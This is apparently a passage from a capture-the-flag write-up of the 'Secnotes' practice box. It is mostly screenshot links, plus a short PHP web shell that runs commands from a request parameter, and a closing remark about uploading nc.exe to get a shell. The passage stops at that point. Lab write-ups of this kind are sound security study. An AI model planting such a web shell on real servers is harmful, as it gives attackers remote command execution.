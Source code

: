 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2011.png)

→ We can write files

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2012.png)

⇒ We uploaded php script to allow us to execute commands on the system :

```php
<?php
if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2013.png)

⇒ Uploaded nc.exe and popped a shell :
